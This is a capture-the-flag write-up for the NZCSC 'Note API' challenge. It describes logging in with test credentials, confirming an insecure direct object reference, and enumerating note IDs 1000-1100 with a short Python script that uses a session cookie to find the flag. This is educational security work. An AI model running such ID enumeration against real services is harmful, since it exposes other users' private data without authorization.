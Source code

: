 # C-4: Note API
>NZCSC is working on creating a note taking application.  
The application is available as an API.  
It is however a work in progress, some endpoints are complete while others are not.  
The documentation for the current version of the API can be found [[noteAPI|here]].

*Unfortunately due to the nature of this challenge we are unable to archive it.*
We are given an OpenAPI specification for a note API. The endpoints can all be accessed at `/challenge4/api.php`.
Most requests to this give back `{ "error": "Unauthorized" }` suggesting we need to login first. Conveniently the username and password are provided at the top of the API specification: `Use username=eve, password=letm3in for testing`.
Sending this in the form of a POST request to `/challenge4/api.php/login` in the form of JSON data gives `{ "message": "Login successful" }` and gives us a PHPSESSID cookie to store. 
We can modify our requests to include this by adding the header `Cookie: PHPSESSID=5b46175213f56d5117a5f71bd1146a18; path=/`. 
To test, we can request `/notes` to see a list of all the current user's notes:
![[notes.png]]
These notes have notably (ha) consecutive IDs, which suggests that an IDOR attack (insecure direct object reference) may be possible. We can test this by requesting note 1040, which is not owned by our user. Requesting `/note/1040` gives `{ "id": 1040, "title": "Tech Projects", "content": "Learn Docker" }`. This shows that we are allowed to view notes beyond our own.
It is now a matter of checking more IDs. The script below simply prints the contents of the notes from 1000-1100 (notes below 1000 return `Note not found`):
```python
import http.client

conn = http.client.HTTPSConnection("ctf.nzcsc.org.nz")
payload = ''
headers = {
  'Cookie': 'PHPSESSID=5b46175213f56d5117a5f71bd1146a18; path=/'
}

for i in range(1000, 1100):
  conn.request("GET", "/challenge4/api.php/note/"+str(i), payload, headers)
  res = conn.getresponse()
  data = res.read()
  print(data.decode("utf-8"))
```
and running `python3 solve.py` shows the flag: `{"id": 1077, "title": "Reading", "content": "FLAG[ABBBB77F699E23DD]" }`.